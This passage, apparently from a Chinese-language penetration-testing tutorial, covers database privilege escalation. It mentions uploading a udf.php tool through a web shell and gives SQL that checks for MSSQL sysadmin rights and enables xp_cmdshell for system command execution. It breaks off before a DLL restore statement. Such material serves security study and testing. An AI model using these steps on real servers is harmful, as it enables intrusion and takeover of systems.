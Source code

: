  **通过WebShell上传udf.php（这种方法数据库不用外连也可以）** 

 udf.php：https://github.com/echohun/tools/blob/master/%E5%A4%A7%E9%A9%AC/udf.php 

![](/images/image-20200521135047931.png)

## MSSQL数据库提权

**首先查看权限**

```sql
--是否sa权限，返回 1 就是sa
select IS_SRVROLEMEMBER('sysadmin')

--是否dba权限，返回 1 就是DBA
select IS_MEMBER('db_owner')
```

### 一、xp_cmdshell

> **适用(xp\2000\2003系统)**
>
> 前提是MSSQL是以system用户运行的，才能提权；
>
> 如果用nt authority\network service运行，是没有系统权限的。

默认情况下是关闭的，用下边的命令开启

```sql
EXEC sp_configure 'show advanced options', 1; --允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; --打开xp_cmdshell扩展
RECONFIGURE;
```

如果xp_cmdshell被删除，可以尝试上传`xplog70.dll` https://fix4dll.com/xplog70_dll 进行恢复，恢复语句：
